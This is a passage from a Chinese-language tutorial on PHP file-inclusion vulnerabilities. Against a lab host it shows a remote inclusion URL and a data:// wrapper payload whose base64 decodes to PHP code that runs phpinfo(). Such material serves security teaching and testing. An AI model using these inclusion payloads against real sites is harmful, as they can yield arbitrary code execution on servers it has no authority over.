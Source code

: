 #### 2.4.2.2. http利用方式

其实http这里的利用方式，除了能够跳转，还能进行远程包含进行漏洞执行。

```
URL：http://192.168.10.150/1.php/?name=http://www.baidu.com
```

![image-20230413154203527](assets/DYNBJnPwIlHV3Oj.png)

#### 2.4.2.3. data利用方式

从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行任意代码。

这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。

```
URL：http://192.168.10.150/1.php/?name=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
"PD9waHAgcGhwaW5mbygpPz4="是通过base64加密的\<?php phpinfo();?\>
```
